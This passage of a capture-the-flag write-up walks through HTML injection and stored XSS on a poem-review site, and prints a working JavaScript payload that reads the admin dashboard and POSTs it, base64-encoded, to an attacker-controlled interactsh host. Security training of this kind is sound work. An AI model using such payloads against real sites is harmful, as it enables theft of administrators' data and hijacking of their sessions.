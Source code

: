 ```html
<h1><b><u><strike>testing HTML Injection</strike></u></b></h1>
```

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612001649.png)

- But the most interesting part here is that I can submit this poem for review, presumably by the site administrators (user `admin`).

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612000029.png)


- This is a typical scenario to exploit an XSS. If the panel where the administrator reviews my poem does not properly sanitize or escape the input of my poem (as was the case with my profile), it's possible to insert JavaScript code to exploit an XSS. However, it's worth noting that the session cookie has `HttpOnly` activated (`true`), so performing a `Cookie Hijacking` is not possible in this scenario. Nonetheless, it does not necessarily lessen the severity of XSS vulnerabilities because the arbitrary JavaScript code allows us to perform the same actions as if we knew the administrator's session cookie. Let's try it!

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612002829.png)

- Here's the payload I'll send in my poem. This JavaScript code will make a request to the administrator's dashboard (`/poem/`) and return the HTML code encoded in base64 via a POST request to a domain under my control (in this case, I used the Open-Source Solution for OOB Testing, `interact.sh`). The purpose is to search for exclusive functionalities and personal information (section `About me`) of the user `admin`.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232452.png)

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232452.png)


```html
<script>
try {
		var xhr = new XMLHttpRequest();
		xhr.open('GET', `http://172.20.0.1:8083/poem/`, false);
		xhr.send();
		var msg = xhr.responseText;
} catch (error) {
	var msg = error;
}

var exfil = new XMLHttpRequest();
exfil.open("POST", "http://qsqrdohxfwvjszlwdlnupz5lv1q0nup86.oast.fun/exfil", false);
exfil.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
exfil.send('data=' + btoa(msg));
</script>
```

- At `app.interactsh.com`, we filter for HTTP requests.

![](/assets/images/CTF-CiberSec-0x2024/Pasted image 20240612232834.png)
